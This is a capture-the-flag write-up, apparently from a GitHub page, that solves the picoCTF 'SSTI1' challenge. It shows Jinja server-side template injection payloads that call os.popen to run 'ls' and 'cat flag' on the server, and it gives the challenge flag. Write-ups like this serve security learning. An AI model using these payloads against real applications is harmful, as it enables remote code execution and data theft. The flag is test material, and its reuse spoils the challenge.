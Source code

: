 # **WEB EXP**
## **<ins>SSTI1</ins>**
### CHALLENGE DESCRIPTION:
I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!


By entering regular texts like 'HI' the website echos these commands as it is.
<img width="452" height="126" alt="image" src="https://github.com/user-attachments/assets/ce56e69e-df8d-4a13-a5f6-edd299db3894" />
<img width="458" height="179" alt="image" src="https://github.com/user-attachments/assets/55d782d1-d084-4a79-83c6-8eb34f370607" />

By entering commands in {{ }} the website executes commands inside the paranthesis.
<img width="447" height="119" alt="image" src="https://github.com/user-attachments/assets/47cc0647-f866-4c6b-ace8-a0376804fd62" />
<img width="243" height="147" alt="image" src="https://github.com/user-attachments/assets/af5ffe0a-0b2c-4f4e-9fe5-42169ca13e6a" />

Hence the {{ }} executes commands and does not just print them. 
Using the command
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
```
we get the flag.
We get the above command using server side template injection.
This website is run by python and hence by looking up for python server side template injection RCE (remote code execution).
We learn about jinja which is an engine for python programming.
Then after looking up python SSTI RCE I found a code that remotely executes the id command.
```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen(self.__init__.__globals__.__str__()[1786:1788]).read()}}
```
But when this command is entered in the website nothing is displayed.
When we enter id inside the bracket and execute the command. We get an error.
```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen(id).read()}}
```
<img width="1069" height="97" alt="image" src="https://github.com/user-attachments/assets/ce3621df-4f38-4acb-8168-634f3ac8bc07" />

Now if we try the ls command instead.
```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen("ls").read()}}
```

<img width="1189" height="235" alt="image" src="https://github.com/user-attachments/assets/23070eda-3d00-4f94-914d-a0e883150d6a" />
Hence the flag file is in this directory.
Now we can read the flag file by using the cat command.
```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen("cat flag").read()}}
```
We obtain the flag.


### SOLVE: 
***FLAG:***:  picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_f5438664}

## Concepts learnt:
I learnt about server side template injection and RCE.

